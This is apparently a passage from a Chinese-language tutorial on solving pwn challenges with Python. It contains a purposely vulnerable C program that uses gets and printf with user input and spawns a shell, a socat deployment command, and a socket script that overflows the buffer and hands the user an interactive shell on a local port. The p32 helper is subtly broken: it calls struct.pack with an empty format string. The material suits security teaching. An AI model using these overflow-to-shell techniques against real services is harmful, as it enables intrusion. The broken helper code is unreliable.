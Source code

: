 # 3.使用Python脚本进行pwn 

## 远程发送payload

目标可执行文件源代码:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

char sh[] = "/usr/bin/sh";

int init()
{
    setvbuf(stdin , 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    return 0;
}

int func(char* cmd)
{
    system(cmd);
    return 0;
}

int main()
{
    char a[8] = { };
    char b[8] = { };
    puts("input: ");
    gets(a);
    printf(a);
    if (b[0] == 0x10) {
        func(sh);
    }
    return 0;
}
```

使用`socat tcp-l:8888,fork exec:./a.out,reuseaddr`指令部署题目, `nc 127.0.0.1 8888`可以接入连接

Python代码模板

```python
import socket
import telnetlib
import struct

def p32(val):
    # convert 32 bit int to little endian
    return struct.pack("", val)

def pwn():
    # create a tcp socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    # connect the server and port
    s.connect(("127.0.0.1", 8888))
    # send payload
    payload = b'a' * 8 + b'\x10'
    s.sendall(payload + b'\n')

    # use telnet to connect
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

if __name__ == "__main__":
    pwn()
```

## pwntools库

